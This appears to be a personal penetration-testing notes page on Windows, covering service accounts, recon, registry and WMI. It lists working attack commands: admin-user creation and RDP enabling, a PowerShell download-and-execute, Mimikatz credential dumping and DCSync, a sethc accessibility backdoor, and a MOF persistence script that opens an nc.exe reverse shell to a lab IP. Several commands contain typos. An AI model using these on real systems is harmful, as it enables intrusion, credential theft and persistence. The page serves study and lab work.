

Windows
Quick References¶
- Commands & prevesc: https://guif.re/windowseop
- VMs: https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/
- Versions
Windows 1.0 1.04 Windows 2.0 2.11 Windows 3.0 3 Windows NT 3.1 3.10.528 Windows for Workgroups 3.11 3.11 Windows NT Workstation 3.5 3.5.807 Windows NT Workstation 3.51 3.51.1057 Windows 95 4.0.950 Windows NT Workstation 4.0 4.0.1381 Windows 98 4.1.1998 Windows 98 Second Edition 4.1.2222 Windows Me 4.90.3000 Windows 2000 Professional 5.0.2195 Windows XP 5.1.2600 Windows Vista 6.0.6000 Windows 7 6.1.7600 Windows 8.1 6.3.9600 Windows 10 10.0.10240
- User Accounts
- LocalSystem account is a predefined local account used by the service control manager.
- https://msdn.microsoft.com/en-us/library/windows/desktop/ms684190(v=vs.85).aspx
- Very high-privileged built-in account.
- Extensive privileges on the local system and acts as the computer on the network.
- The actual name of the account is
NT AUTHORITY\SYSTEM. - Not recognized by the security subsystem, so you cannot specify its name in a call to the
LookupAccountNamefunction. - Has extensive privileges on the local computer, and acts as the computer on the network.
- Its token includes the
NT AUTHORITY\SYSTEMandBUILTIN\AdministratorsSIDs; these accounts have access to most system objects. - The name of the account in all locales is
.\LocalSystem. - The name,
LocalSystemorComputerName\LocalSystemcan also be used. - This account does not have a password.
- If you specify the
LocalSystemaccount in a call to theCreateServiceorChangeServiceConfigfunction, any password information you provide is ignored. - The service can open the registry key HKEY_LOCAL_MACHINE\SECURITY.
- The service presents the computer's credentials to remote servers.
- If the service opens a command window and runs a batch file, the user could hit CTRL+C to terminate the batch file and gain access to a command window with LocalSystem permissions.
- A service that runs in the context of the
LocalSystemaccount inherits the security context of the SCM. The user SID is created from theSECURITY_LOCAL_SYSTEM_RIDvalue. - Has:
- E_ASSIGNPRIMARYTOKEN_NAME (disabled)
- SE_AUDIT_NAME (enabled)
- SE_BACKUP_NAME (disabled)
- SE_CHANGE_NOTIFY_NAME (enabled)
- SE_CREATE_GLOBAL_NAME (enabled)
- SE_CREATE_PAGEFILE_NAME (enabled)
- SE_CREATE_PERMANENT_NAME (enabled)
- SE_CREATE_TOKEN_NAME (disabled)
- SE_DEBUG_NAME (enabled)
- SE_IMPERSONATE_NAME (enabled)
- SE_INC_BASE_PRIORITY_NAME (enabled)
- SE_INCREASE_QUOTA_NAME (disabled)
- SE_LOAD_DRIVER_NAME (disabled)
- SE_LOCK_MEMORY_NAME (enabled)
- SE_MANAGE_VOLUME_NAME (disabled)
- SE_PROF_SINGLE_PROCESS_NAME (enabled)
- SE_RESTORE_NAME (disabled)
- SE_SECURITY_NAME (disabled)
- SE_SHUTDOWN_NAME (disabled)
- SE_SYSTEM_ENVIRONMENT_NAME (disabled)
- SE_SYSTEMTIME_NAME (disabled)
- SE_TAKE_OWNERSHIP_NAME (disabled)
- SE_TCB_NAME (enabled)
- SE_UNDOCK_NAME (disabled)
- LocalService account is a predefined local account used by the service control manager.
- https://msdn.microsoft.com/en-us/library/windows/desktop/ms684188(v=vs.85).aspx
- Has the same level of access to resources and objects as members of the
Usersgroup. - This limited access helps safeguard the system if individual services or processes are compromised.
- Services that run as the
Local Serviceaccount access network resources as anull sessionwithout credentials. Local Serviceaccount is not supported for theSQL ServerorSQL Server Agentservices.- The actual name of the account is
NT AUTHORITY\LOCAL SERVICE. - Not recognized by the security subsystem, so you cannot specify its name in a call to the
LookupAccountNamefunction. - Has minimum privileges on the local computer and presents anonymous credentials on the network.
- Can be specified in a call to the
CreateServiceandChangeServiceConfigfunctions. - This account does not have a password, so any password information that you provide in this call is ignored.
- While the security subsystem localizes this account name, the SCM does not support localized names. Therefore, you will receive a localized name for this account from the
LookupAccountSidfunction, but the name of the account must beNT AUTHORITY\LocalServicewhen you callCreateServiceorChangeServiceConfig, regardless of the locale, or unexpected results can occur. - The LocalService account has its own subkey under the HKEY_USERS registry key. Therefore, the
HKEY_CURRENT_USERregistry key is associated with the LocalService account. - Has:
- SE_ASSIGNPRIMARYTOKEN_NAME (disabled)
- SE_AUDIT_NAME (disabled)
- SE_CHANGE_NOTIFY_NAME (enabled)
- SE_CREATE_GLOBAL_NAME (enabled)
- SE_IMPERSONATE_NAME (enabled)
- SE_INCREASE_QUOTA_NAME (disabled)
- SE_SHUTDOWN_NAME (disabled)
- SE_UNDOCK_NAME (disabled)
- Any privileges assigned to users and authenticated users
- NetworkService account is a predefined local account used by the service control manager.
- https://msdn.microsoft.com/en-us/library/windows/desktop/ms684272(v=vs.85).aspx
- Has more access to resources and objects than members of the
Usersgroup. - Services that run as the
Network Serviceaccount access network resources by using thecredentials of the computer account. - The actual name of the account is
NT AUTHORITY\NETWORK SERVICE. - Not recognized by the security subsystem, so you cannot specify its name in a call to the
LookupAccountNamefunction. - Has minimum privileges on the local computer and acts as the computer on the network.
- This account can be specified in a call to the
CreateServiceandChangeServiceConfigfunctions. - This account does not have a password, so any password information that you provide in this call is ignored.
- While the security subsystem localizes this account name, the SCM does not support localized names. Therefore, you will receive a localized name for this account from the
LookupAccountSidfunction, but the name of the account must beNT AUTHORITY\NetworkServicewhen you callCreateServiceorChangeServiceConfig, regardless of the locale, or unexpected results can occur. - A service that runs in the context of the
NetworkServiceaccount presents the computer's credentials to remote servers. By default, the remote token contains SIDs for the Everyone and Authenticated Users groups. The user SID is created from theSECURITY_NETWORK_SERVICE_RIDvalue. - Has its own subkey under the
HKEY_USERSregistry key. Therefore, theHKEY_CURRENT_USERregistry key is associated with the NetworkService account. - Has:
- SE_ASSIGNPRIMARYTOKEN_NAME (disabled)
- SE_AUDIT_NAME (disabled)
- SE_CHANGE_NOTIFY_NAME (enabled)
- SE_CREATE_GLOBAL_NAME (enabled)
- SE_IMPERSONATE_NAME (enabled)
- SE_INCREASE_QUOTA_NAME (disabled)
- SE_SHUTDOWN_NAME (disabled)
- SE_UNDOCK_NAME (disabled)
- Any privileges assigned to users and authenticated users
- LocalSystem account is a predefined local account used by the service control manager.
- Convert string to little-endian:
iconv -to-code UTF-16LE- Should be done before base64 encoding for
-ExecuteCommandin powershell
- Should be done before base64 encoding for
- Enumeration Tips
- Ref: https://scriptdotsh.com/index.php/2019/01/01/active-directory-penetration-dojo-ad-environment-enumeration-1/
- Check the
policiesrelated toNetwork Access Control. Whether it can be bypassed or not. - Go for
guest wifi. It could lead you to get inside the company network if it is not segregated. - Check for the
printersin the environment. Try to do printer exploitation. Printers are part of domain network too. Try default passwords. - Check for
misconfigurationsin the systems as well as the network. - At the Domain level, always look for
Administratorsgroup members instead of going just forDomain Admins. Reason being Builtin Administrators group is the superior one. Even "Domain Admins" group is also the member of administrators groups. - Look for User
Rights Assignmentsin theGPOs. They get checked very rarely. The ones which are configured for Domain Controllers actually have domain rights. - Most of the organizations use the
same image for all of their deployments. Which means they usesame local admin password. Always check if same local admin account is being used in whole domain. - Identify
Admin Restrictions. (Logon Hours, LogonWorkstations) Decoys can be detected using this. - Use
Responder to collect NTLM hashes. - Check SYSVOL too.
ShareEnumto look for file shares.
- Recon
- IP, subnet, default gateway etc:
ipconfig /all - Current user name, info in current access token, SID, privs and group that current user belongs to:
whoami /all - Local groups on current machine:
net localgroup - Local administrators of current machine:
net localgroup "administrators" - Active tcp connections, ports, which the computer is listening, ethernet statistics, ip routing table:
netstat -an - Running processes with verbose mode:
tasklist /V - Startup programs:
net start - Windows services with binary paths:
sc qc <service> - OS, processor, memory, bios related info:
systeminfo>output.txt - Scheduled jobs:
schtasks /query /fo LIST /v - Patches installed and figuring out if its missing important any patch:
wmic qfe get Caption,Description,HotFixID,InstalledOn
- IP, subnet, default gateway etc:
- Domain Network Recon
- Mapping of IP address to its MAC address in the network:
arp -a - Domain:
echo %USERDOMAIN% - Domain controller name:
echo %logonserver% - List of domain users:
net user /domain - List of groups in the domain:
net group /domain - AD domain password policy:
net accounts /domain - Map AD trust relationships:
nltest /domain_trusts
- Mapping of IP address to its MAC address in the network:
- Alternate Data Stream (ADS)
- Listing:
dir /R - Find Streams:
get-item -path *.* -stream * - Reading:
powershell Get-Content -Path "hm.txt" -Stream "root.txt" - Reading:
get-content backup.zip -stream 'pass' - Reading:
streams.exe /accepteula -sfrom sysinternals
- Listing:
- Services
- Registry entries:
HKLM\SYSTEM\CurrentControlSet\Services - View service properties:
sc qc "Vulnerable Service"/net start - Restarting:
sc stop "Vulnerable Service"/net stop <name> - Start:
sc start "Vulnerable Service"/net start <name> - Service information:
Get-Service "Ubiquiti UniFi Video" | fl * - Restart PC:
shutdown /r /t 0 - Change binary path:
sc config "Vulnerable Service" binpath= "net user eviladmin P4ssw0rd@ /add - Disable:
sc config servicename start= disabled - Enable:
sc config servicename start= demand - Auto:
sc config servicename start= auto - Keep alive - When a service starts in Windows operating systems, it must communicate with the
Service Control Manager. If it's not,Service Control Managerwill terminates the process.
- Registry entries:
- Installing MSI
msiexec /quiet /qn /i malicious.msi
/quiet = Suppress any messages to the user during installation /qn = No GUI /i = Regular (vs. administrative) installation
- Extract ZIP
Add-Type -assembly 'system.io.compression.filesystem';[io.compression.zipfile]::ExtractToDirectory ("C:\backup.zip","C:\Example\")
- View File Systems
gdr -PSProvider 'FileSystem'
- Access shared volume
net use y: \\10.10.10.57\c$ /user:administrator 1234test
- Open password protected share
net use \\server\share /user:test testpassword start \\server\share
- Auto Save Password to PowerShell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential('administrator' $passwd) Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://<LAB IP>/writeup')" -Credential $creds
- Permissions:
whoami /priv- View Permisions:
cacls C:\Users\Administrator\Desktop\root.txt - Grant Permissions
cacls C:\Users\Administrator\Desktop\root.txt /grant Alfred:Fcacls "c:\users\Administrator\Desktop\root.txt" /E /P Alfred:F cacls Windows utility to view/edit file permissions /E to edit ACL /P to set permissions Alfred:F to give Alfred full control of the file
- View Permisions:
- SSH from Windows to Attacker (Kali)
- Manual
- From Windows:
plink.exe -l root -pw -R 445:127.0.0.1:445 10.10.14.8 - From Attacker:
netstat -ano | grep 445 winexe -U Administrator //127.0.0.1 "cmd.exe"
- From Windows:
- Metasploit
portfwd add -l 445 -p 445 -r 127.0.0.1 use exploit/windows/smb/psexec set SMBDOMAIN CHATTERBOX set SMBUSER Administrators set SMBPASS Welcome1! set RHOST 127.0.0.1 exploit
- Manual
- Add user and enable RDP
net user hacker hacker /add net localgroup /add Administrators hacker reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
- Windows file association
Bypasses¶
- ftp.exe to open processes: https://twitter.com/yeyint_mth/status/1009732492138442752
Tools¶
- Patch Extractor : https://gist.github.com/moshekaplan/e8d16ed91dc3ca53e73145ba3b2baebd https://gist.github.com/anonymous/d55f494982c0097111d3263cf7099c9d
- ntdsXtract - Active Directory forensic framework: https://github.com/csababarta/ntdsxtract
- Extract users from ESE DB export:
dsusers.py kotarak.dit.export/datatable.3 kotarak.dit.export/link_table.5 hashdump --syshive kotarak.bin --passwordhashes --lmoutfile lmout.txt --ntoutfile ntout.txt --pwdformat ophc
- Practice:
- HTB: Kotarak
- Extract users from ESE DB export:
- LibEseDB - library to access the Extensible Storage Engine (ESE) Database File (EDB) format: https://github.com/libyal/libesedb
- The ESE database format is used in may different applications like Windows Search, Windows Mail, Exchange, Active Directory, etc.
- Dump tables:
esedbexport -m tables 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
- Practice:
- HTB: Kotarak
- WinEXE - remotely executes commands on Windows NT/2000/XP/2003 systems from GNU/Linux (and possibly also from other Unices capable of building the Samba 4 software package): https://sourceforge.net/projects/winexe/
- PowerUpSQL:
- Dumping Active Directory Domain Info – with PowerUpSQL!: https://blog.netspi.com/dumping-active-directory-domain-info-with-powerupsql/
- Bloodhound - uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Attackers can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify: https://github.com/BloodHoundAD/BloodHound
- BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment: https://github.com/BloodHoundAD/BloodHound
- Find where domain admins are logged in:
python http://bloodhound.py -u <USERNAME> -p <PASSWORD> -d <DOMAIN_NAME> -dc <DOMAIN_CONTROLLER_HOSTNAME> neo4j start bloodhound
- LDIFDE: Import/Export information from AD
- Sys Internals: https://technet.microsoft.com/en-in/sysinternals/bb545021.aspx
PsExec- Execute processes on remote machinePsFile- Displays list of files opened remotely.PsGetSid- Translate SID to display name and vice versaPsKill- Kill processes on local or remote machinePsInfo- Displays installation, install date, kernel build, physical memory, processors type and number, etc.PsList- Displays process, CPU, Memory, thread statisticsPsLoggedOn- Displays local and remote logged usersPsLogList- View Event logs
- localrecon.cmd: Utility to generate a summary of a Windows system: https://github.com/bitsadmin/miscellaneous/blob/master/localrecon.cmd
- Empire: post-exploitation framework that includes a pure-PowerShell2.0 Windows agent, and a pure Python 2.6/2.7 Linux/OS X agent: https://github.com/EmpireProject/Empire
- Seatbelt: C# project that performs a number of security oriented host-survey "safety checks": https://github.com/GhostPack/Seatbelt
Mimikatz¶
- Mimikatz 2.0 - Golden Ticket Walkthrough: https://www.beneaththewaves.net/Projects/Mimikatz_20_-_Golden_Ticket_Walkthrough.html
- General commands:
privilege::debug sekurlsa::logonPasswords full sekurlsa::pth /user:Administrator /domain:WOSHUB /ntlm:{NTLM_hash} /run:cmd.exe misc::skeleton ipconfig /all whoami /user lsadump::lsa /inject /name:krbtgt kerbros::golden /domain:[Domain] /sid:[SID] /rc4:[NTLM Hash] /user:[Username To Create] /id:500 /ptt pushd \\WINSERVER01\c$ cd WINDOWS\NTDS
- If WDigest is disabled:
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
- Export memory dump and use it in Mimikatz:
Get-Process lsass | Out-Minidump sekurlsa::minidump lsass_592.dmp
- Using VMWare / Hibernate file: http://woshub.com/how-to-get-plain-text-passwords-of-windows-users/
- Mimikatz features: https://adsecurity.org/?page_id=1821
- DCSync
- https://adsecurity.org/?p=1729
mimikatz "lsadump::dcsync /domain:rd.adsecurity.org /user:krbtgt" mimikatz "lsadump::dcsync /domain:rd.adsecurity.org /user:Administrator"
- "impersonates" a Domain Controller and requests account password data from the targeted Domain Controller.
- Required Permissions: Any member of
Administrators,Domain Admins, orEnterprise Adminsas well asDomain Controllercomputer accounts. Read-Only Domain Controllers are not allowed to pull password data for users by default. - Prior to DCSync was to run Mimikatz or Invoke-Mimikatz on a Domain Controller to get the
KRBTGT password hashto createGolden Tickets - With DCSync, the attacker can pull the password hash, as well as previous password hashes, from a Domain Controller over the network without requiring interactive logon or copying off the Active Directory database file (ntds.dit).
- Internals:
- Discovers Domain Controller in the specified domain name.
- Requests the Domain Controller replicate the user credentials via GetNCChanges (leveraging Directory Replication Service (DRS) Remote Protocol)
"The client DC sends a DSGetNCChanges request to the server when the first one wants to get AD objects updates from the second one. The response contains a set of updates that the client has to apply to its NC replica. It is possible that the set of updates is too large for only one response message. In those cases, multiple DSGetNCChanges requests and responses are done. This process is called replication cycle or simply cycle." "When a DC receives a DSReplicaSync Request, then for each DC that it replicates from (stored in RepsFrom data structure) it performs a replication cycle where it behaves like a client and makes DSGetNCChanges requests to that DC. So it gets up-to-date AD objects from each of the DC’s which it replicates from."
- https://adsecurity.org/?p=1729
PsExec¶
- References:
Important Endpoints¶
- Connection endpoints for Windows 10: https://docs.microsoft.com/en-us/windows/privacy/manage-windows-1809-endpoints
Registry¶
- Important Registry Locations
- Installed programs:
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall - Gain system shell at login using 5x[shift]:
HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exewith propertyDebuggerset tocmd.exeHKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exewith propertyDebuggerset tocmd.exe- Disable macro security:
- Enable EDP:
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
- Installed programs:
- Ways to access registry
- cmd:
cmd /c REG QUERY - Powershell:
Get-Item <path>- For remote use:
Enter-PSSessionand inside the session useGet-Item
- WMI (StdRegProv)
- To find IDs use: https://github.com/darkoperator/Posh-SecMod/blob/master/Registry/Registry.ps1
$RemoteReg = Get-WmiObject -List "StdRegProv" -ComputerName <name> -Credential <cred> $RemoteReg | Select-Object -ExpandProperty methods | more $RemoteReg.getStringValue(<id>, <path>, <propertyName>)
- To find IDs use: https://github.com/darkoperator/Posh-SecMod/blob/master/Registry/Registry.ps1
- .Net
[Microsoft.Win32.RegistryKey].getMethods()
- https://archive.codeplex.com/?p=psremoteregistry
- cmd:
- Tasks
- Recently used commands
- Installed apps
- Turn off network level auth
- Attach debugger to setg.exe
General Exploits¶
Important Files¶
mpengine.dll(+ mpasbase.vdm mpasdlta.vdm mpavbase.vdm mpavdlta.vdm)- Windows Defender - Microsoft Malware Protection Engine
- Take buffer of data and decide of malicious or not
MPSigStub.exe- Microsoft Malware Protection Signatuee Update Stub
Special File Handling¶
Windows API¶
- https://en.wikipedia.org/wiki/Windows_API#Versions
- Using Python on Windows: https://docs.python.org/3/using/windows.html
- theForger's Win32 API Programming Tutorial: http://www.winprog.org/tutorial/
- Windows API Reference: https://docs.microsoft.com/en-us/previous-versions//aa383749(v=vs.85)?redirectedfrom=MSDN
- Network Related
- ARP Table:
GetIPNetTable
- ARP Table:
- Services
- Change Services:
ChangeServiceConfigW
- Change Services:
WMI¶
- Implementation of
Common Information Model (CIM)andWeb-Based Enterprise Management (WBEM) WBEMstandard encompasses the design of an- extensible enterprise data-collection and data-management facility
- that has the flexibility and extensibility
- required to manage local and remote systems that comprise arbitrary components
WMIconsists of four main components:- management applications
- WMI infrastructure
- providers
- managed objects (system, disks, processes, network components...)
- Allows
- Execute some code when the notification of an event


- CIM classes
- hierarchically organized with subclasses
- grouped in namespaces (logical group of classes)
- root\cimv2 includes most of the classes that represent computer's resources
- Categories
- Core Classes - Applies to all areas of management (__System_Security)
- Common Classes - Extension of core classes (CIM_UnitaryComputerSystem)
- Extended Classes - Technology specific addition to common classes (Win32_ComputerSystem)
- Types
- Abstract - Template classes used to define other classes.
- Static - Stores data
- WMI configuration
- Operational data
- Dynamic - Retrieved from a provider, and represents managed resource (process, service, file, etc.)
- Association - Describe relationship between classes or resources.
- WMI Provider
- Bridge between managed object and WMI
- Provide access to classes
- Namespaces
- CIM classes are decided logically using namespaces
- For easier discovery and use
root\cimv2root\defaultroot\securityroot\subscription
- WMI repository - stores CIM classes' definitions
%SystemRoot%\System32\wbem\Repository
Interesting CIM classes¶
- __EventFilter [create]: permits to define a Windows event
- __EventConsumer: (abstract consumer class)
- ActiveScriptEventConsumer: possible to embed VBScript or JSScript in the consumer (only available in root\subscription)
- Consumer runs with SYSTEM privilege on Windows XP and Windows 2003 Server
- Vista, it is running under the LOCAL_SERVICE user
- __FilterToConsumerBinding: link two other instances. (permits to activate the consumer - and to execute its code - whenever the defined event occurs)
MOF (Managed Object Format)¶
- Language used to describe CIM classes, namespaces and providers
- MOF file needs to be registered into the CIM/WMI repository in order to be taken into account by WMI
- CIM class(es) MOF describes are added into the repository
- Stored in
%SystemRoot%\System32\wbem
- Compilation
- Compiled using
mofcomp.exe
- Compiled using
- Auto compile & register
- Writable to
Administratoronly - Files added to
%SystemRoot%\System32\wbem\mof\get auto compiled and registered (before Vista) - Logs are in
%SystemRoot%\System32\wbem\mof\Logs\mofcomp.log
- Writable to
Wait for a windows event and trigger:
#pragma namespace ("\\\\.\\root\\subscription") instance of __EventFilter as $FILTER { Name = "CLASS_FIRST_TEST"; EventNamespace = "root\\cimv2"; Query = "SELECT * FROM __InstanceCreationEvent " "WHERE TargetInstance ISA \"Win32_NTLogEvent\" AND " "TargetInstance.LogFile=\"Application\""; QueryLanguage = "WQL"; }; instance of ActiveScriptEventConsumer as $CONSUMER { Name = "CLASS_FIRST_TEST"; ScriptingEngine = "VBScript"; ScriptText = "Set objShell = CreateObject(\"WScript.Shell\")\n" "objShell.Run \"C:\\Windows\\system32\\cmd.exe /C C:\\nc.exe 192.168.38.1 1337 -e C:\\Windows\\system32\\cmd.exe\"\n"; }; instance of __FilterToConsumerBinding { Consumer = $CONSUMER ; Filter = $FILTER ; };
Self start:
#pragma namespace ("\\\\.\\root\\subscription") class WoootClass { [key] string Name; }; instance of __EventFilter as $FILTER { Name = "XPLOIT_TEST_SYSTEM"; EventNamespace = "root\\subscription"; Query = "SELECT * FROM __InstanceCreationEvent " "WHERE TargetInstance.__class = \"WoootClass\""; QueryLanguage = "WQL"; }; instance of ActiveScriptEventConsumer as $CONSUMER { // ... }; instance of __FilterToConsumerBinding { // ... }; instance of WoootClass { Name = "Woot"; };
Usages
- Automatically kill some processes as soon as they are launched (anti-rootkits...), - Automatically detect when the backdoor/rootkit has been deleted to load it again (dropper), - Automatically infect USB devices
Exploring¶
Exploring Namespaces
Get-WmiObject -Namespace "root" -Class "__Namespace" | select name Get-CimInstance -Namespace "root" -Class "__Namespace"
To read nested namespaces:
Get-WmiNamespace
Exploring Classes
-Namespace root\cimv2 is the default of Powershell
Get-WmiObject -Class *bios* -List
Get-CimClasses -List
List only dynamic classes:
Get-CimClasses -QualifierName dynamic -List
Look at details of the class:
Get-WmiObject -Class Win32_Bios | fl *
Get-CimInstance -ClassName Win32_Bios | fl *
Using WMI Class
Get-WmiObject -Class Win32_Process | Where-Object {$_.Name -eq "explorer.exe"} Get-WmiObject -Class Win32_Process | where name -eq "explorer.exe" Get-WmiObject -Query "Select * from Win32_Process where Name = 'explorer.exe'"
Get-CimInstance -ClassName Win32_Process -Filter "Name -eq 'explorer.exe'" Get-CimInstance -Query "Select * from Win32_Process where Name = 'explorer.exe'"
Can use Remove-WmiObject and Remove-CimInstance to close processed, remove registry entries, etc.
Methods
Identifying methods:
Get-WmiObject * -List | Where-Object {$_.Method} (Get-WmiObject -Class Win32_Process -List).Methods Get-CimClass -Class Win32_Process -List | Select -ExpandProperty Methods
Get-CimClass -MethodName * Get-CimClass -MethodName *create* Get-CimClass -ClassName Win32_Process | Select -ExpandProperty CimClassMethods
Exploring methods:
Get-CimClass -ClassName Win32_Process | Select -ExpandProperty CimClassMethods | where name -eq "Create" | Select -ExpandProperty Parameters
Invoke:
Invoke-WmiMethod -Class Win32_process -Name create -ArgumentList calc.exe
Invoke-CimMethod -ClassName Win32_process -MethodName Create -Arguments @{CommandLine = "calc.exe"}
Update Instance
Get-WritableProperties
Get-WmiObject -Class Win32_Printer -FIlter "name = 'Microsoft XPS Document Writer'" | Set-WmiInstance -Arguments @{Comment = "Example comment"}
Get-CimInstancet -ClassName Win32_Printer -FIlter "name = 'Microsoft XPS Document Writer'" | Set-CimInstance -Property @{Comment = "Example comment"}
Associations
{kind=link}

Get-WmiObject -Class *Win32_NetworkAdapter* -List | fl * Get-WmiObject -Class Win32_NetworkAdapter -List | fl * Get-WmiObject -Query "Associators of {win32_NetworkAdapter.DeviceID=11}" Get-WmiObject -Query "Associators of {win32_NetworkAdapter.DeviceID=11} Where ClassDefsOnly" Get-CimAssociatedInstance -InputObject (Get-CimInstance -ClassName Win32_NetworkAdapter -Filter 'DeviceId = 11')
Only see one association class:
Get-WmiObject -Query "Associators of {win32_NetworkAdapter.DeviceID=11}" -AssociationClass Win32_ProtocolBinding
Get references (classes linking two other classes)
Get-WimObject -Query "References of {win32_NetworkAdapter.DeviceID=11} Where ClassDefsOnly" Get-WimObject -Query "References of {win32_NetworkAdapter.DeviceID=11}"
Interesting Queries¶
- List all the systems within the current environment/directory:
SELECT ds_cn FROM ds_computer - Installed software:
- File listing:
- Services:
- Logon accounts:
- Hardware information:
- Installed patches:
- Security logs:
- Command line used to start processes:
- Path to executable for running processes:
Useful WMI Classes¶
- Win32_OperatingSystem
- Win32_Process
- Win32_IP4RouteTable
- Win32_UserAccount
- Win32_Groups
- Win32_ShadowCopy
- Create a shadow copy of AD's drive and extract NTDS.dit
(Get-WmiObject -Class Win32_ShadowCopy -list).create("C:\", "CreateAccessible")$link = (Get-WmiObject -Class Winn32_ShadowCopy).DeviceObject + "\"cmd /c mklink /d C:\shadowcopy "$link"
- AD
Tools¶
- WMI Object Browser:
- WMIC
# WMIC Verbs can be explored by looking at help # Interactive wmic wmic:root\cli> process /? wmic:root\cli> group where name='Administrators' assoc # Non-interactive wmic process /?
- Powershell WMI Browser
- WMI Code Generator
- WMIGen
Remoting¶
- WMI Cmdlets
- Uses DCOM
- Port 135 (winmgmt service)
- Not firewall / NAT friendly
- Data exchanged on dynamic ports (
HKLM\Software\Microsoft\Rpc\Internet)
- CIM Cmdlets
- DCOM 135
- WinRm/WSMan
- 5385 - HTTP
- 5386 - HTTPS
- Firewall and NAT friendly
Session over WinRM/WSMan:
$sess = New-CimSession -ComputerName <name> -Credential <cred> Get-CimInstance -CimSession $sess -ClassName Win32_OperatingSystem
Session over DCOM:
$sessOptions = New-CimSessionOption -Protocol Dcom $newsess = New-CimSession -ComputerName <name> -Credential <cred> -SessionOption $sessOptions
Access Registry¶
Get-WimObject -Namespace root\default -Class StdRegProv -List Get-WimObject -Namespace root\default -Class StdRegProv -List | Select-Object -ExpandProperty methods | more $RegProv = Get-WimObject -Namespace root\default -Class StdRegProv -List $RegProv.Methods
$RemoteReg = Get-WmiObject -List "StdRegProv" -ComputerName <name> -Credential <cred> $RemoteReg | Select-Object -ExpandProperty methods | more $RemoteReg.getStringValue(<id>, <path>, <propertyName>)
WmiInvokeMethod -Namespace root\default -Class StdRegProv -Name GetStringValue @(<id>,<path>,<property>)
Posh_SecMod \ Registry.ps1
References¶
- Playing with MOF files on Windows, for fun & profit
- Exposing System Secrets with VBA and WMI API
- How to use WbemExec for a write privilege attack on Windows
AppLocker¶
HyperV¶
- Fuzzing para-virtualized devices in Hyper-V: https://blogs.technet.microsoft.com/srd/2019/01/28/fuzzing-para-virtualized-devices-in-hyper-v/
- Writing a Hyper-V "Bridge" for Fuzzing — Part 1: WDF: http://www.alex-ionescu.com/?p=377
- Writing a Hyper-V "Bridge" for Fuzzing — Part 2 : Hypercalls & MDLs: http://www.alex-ionescu.com/?p=471
- https://blogs.technet.microsoft.com/srd/2018/12/10/first-steps-in-hyper-v-research/
- https://blogs.technet.microsoft.com/srd/2018/05/03/hyper-v-debugging-symbols-are-publicly-available/
- https://github.com/comaeio/LiveCloudKd
Events¶
Tools
- EtwExplorer - View Event Tracing for Windows (ETW) Provider manifests: https://github.com/zodiacon/EtwExplorer
Defense¶
- Windows 10 and Server 2016 Secure Baseline Group Policy: https://github.com/mxk/win10-secure-baseline-gpo
- Preventing Mimikatz Attacks by Panagiotis Gkatziroulis: https://hakin9.org/preventing-mimikatz-attacks/
- Server Security
References¶
- Schtasks without Schtasks.exe via Reflective DLL: https://ijustwannared.team/2018/08/13/schtasks-without-schtasks-exe-via-reflective-dll/
- Windows 10 Persistence via PATH directories - CDPSvc: https://www.a12d404.net/windows/2019/01/13/persistance-via-path-directories.html
- CDPSvc (Connected Devices Platform Service) searches the file cdpsgshims.dll inside PATH directories and loads it if found.
- With a default Windows installation, there can’t be a non-admin directory in the PATH, so this can’t be exploited.
- A sample DLL (source included) that executes calc.exe is available here: https://github.com/marpie/a12d404.net-files/tree/master/CDPSvcPersist
- Useful for vulnerability research workflows on Windows: https://gist.github.com/jthuraisamy/af862987fff437daec52ee3cc5894203
- Windows 10 Device Security: https://query.prod.cms.rt.microsoft.com/cms/api/am/binary/RE2IIVu
- Windows Command Line cheatsheet (part 1): some useful tips: https://www.andreafortuna.org/technology/windows/windows-command-line-cheatsheet-part-1-some-useful-tips/
